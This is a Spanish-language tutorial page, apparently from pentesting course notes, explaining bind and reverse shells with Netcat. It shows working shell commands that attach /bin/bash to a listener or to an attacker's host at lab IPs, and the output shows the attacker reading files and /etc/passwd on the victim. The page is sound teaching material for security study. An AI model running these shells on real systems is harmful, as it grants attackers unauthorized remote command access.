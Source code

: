 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Invertir y vincular shells(Reverser/Bind Shells)

Un _shell_ es una utilidad que actúa como interfaz entre un usuario y el sistema operativo.&#x20;

En Linux existen varios entornos de shell, como Bash, ksh y tcsh.En Windows el shell es el símbolo del sistema , que se invoca mediante cmd.exe.

Windows PowerShell es un shell de Microsoft más nuevo que combina la antigua funcionalidad CMD con un nuevo conjunto de instrucciones de scripting/cmdlet con funcionalidad de administración del sistema integrada. Los cmdlets de PowerShell permiten a los usuarios y administradores automatizar tareas complicadas con scripts reutilizables.

Con un shell de enlace, un atacante abre un puerto o un escucha en el sistema comprometido y espera una conexión. Esto se hace para conectarse a la víctima desde cualquier sistema y ejecutar comandos y manipular aún más a la víctima.&#x20;

<img src="../../../.gitbook/assets/file.excalidraw.svg" alt="" class="gitbook-drawing">

Un shell inverso es una vulnerabilidad en la que un sistema atacante tiene un oyente (puerto abierto y la víctima inicia una conexión con el sistema atacante.

<img src="../../../.gitbook/assets/file.excalidraw (3).svg" alt="" class="gitbook-drawing">

### Netcat

```
NAME
                 nc - TCP/IP swiss army knife

SYNOPSIS
             nc [-options] hostname port[s] [ports] ...
             nc -l -p port [-options] [hostname] [port]

DESCRIPTION
             netcat is a simple unix utility which reads and writes
data across network connections, using TCP or UDP protocol. It is
designed to be a reliable "back-end" tool that can be used directly
or easily driven..........>

```

Un atacante podría usar el comando **`nc -lvp 1234 -e /bin/bash`** en el sistema comprometido (192.168.78.6) para crear un escucha en el puerto **`1234`** y ejecutar ( **-e** ) el shell Bash ( **/bin/bash** ).

#### C_reación de un shell de enlace utilizando Netcat._

```
omar@jorel:~$ nc -lvp 1234 -e /bin/bash
listening on [any] 1234 ...

```

**NOTA** En los sistemas Windows, puede ejecutar la utilidad del símbolo del sistema cmd.exe con el comando **nc -lvp 1234 -e cmd.exe** Netcat.

Como se muestra en el Ejemplo 8-3, en el sistema atacante (192.168.78.147), se utiliza el comando **nc -nv 192.168.78.6 1234 para conectarse con la víctima.** Una vez que el atacante (192.168.78.147) se conecta con la víctima (192.168.78.6), se invoca el comando **ls** y se muestran tres archivos en la pantalla del atacante.

_**Ejemplo 8-3**_ _: Conexión al Bind Shell mediante Netcat_

```
root@kali:~# nc -nv 192.168.78.6 1234
(UNKNOWN) [192.168.78.6] 1234 (?) open
ls
secret_doc_1.doc
secret_doc_2.pdf
secret_doc_3.txt
```

Cuando el atacante se conecta, el mensaje resaltado en el ejemplo 8-4 se muestra en el sistema de la víctima.

_**Ejemplo 8-4**_ _: un atacante conectado a una víctima mediante un Bind Shell_

```
omar@jorel:~$ nc -lvp 1234 -e /bin/bash
listening on [any] 1234 ...
connect to [192.168.78.6] from (UNKNOWN) [192.168.78.147] 52100 
```

Uno de los desafíos de usar shells de enlace es que si el sistema de la víctima está detrás de un firewall, el puerto de escucha podría estar bloqueado. Sin embargo, si el sistema de la víctima puede iniciar una conexión con el sistema atacante en un puerto determinado, se puede utilizar un shell inverso para superar este desafío.

El ejemplo 8-5 muestra cómo crear un shell inverso usando Netcat. En este caso, para crear un shell inverso, puede usar el comando **nc -lvp 666** en el sistema atacante para escuchar un puerto específico (puerto 666 en este ejemplo).

_**Ejemplo 8-5**_ _: creación de un oyente en el sistema atacante para crear un shell inverso usando Netcat_

```
root@kali:~# nc -lvp 666
listening on [any] 666 ...
192.168.78.6: inverse host lookup failed: Unknown host
connect to [192.168.78.147] from (UNKNOWN) [192.168.78.6] 32994
ls
secret_doc_1.doc
secret_doc_2.pdf
secret_doc_3.txt 

```

Luego, en el host comprometido (la víctima), puede usar el comando **nc 192.168.78.147 666 -e /bin/bash** para conectarse al sistema atacante, como se demuestra en el Ejemplo 8-6.

_**Ejemplo 8-6**_ _: Conexión al sistema atacante (Shell inverso) mediante Netcat_

```
omar@jorel:~$ nc 192.168.78.147 666 -e /bin/bash
```

Una vez que el sistema víctima (192.168.78.6) esté conectado al sistema atacante (192.168.78.147), puede comenzar a invocar comandos, como se muestra en las líneas resaltadas en el Ejemplo 8-7.

_**Ejemplo 8-7**_ _: Ejecutar comandos en el sistema de la víctima a través de un Shell inverso_

```
root@kali:~# nc -lvp 666
listening on [any] 666 ...
192.168.78.6: inverse host lookup failed: Unknown host
connect to [192.168.78.147] from (UNKNOWN) [192.168.78.6] 32994
ls
secret_doc_1.doc
secret_doc_2.pdf
secret_doc_3.txt
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin

<output omitted for brevity>

```
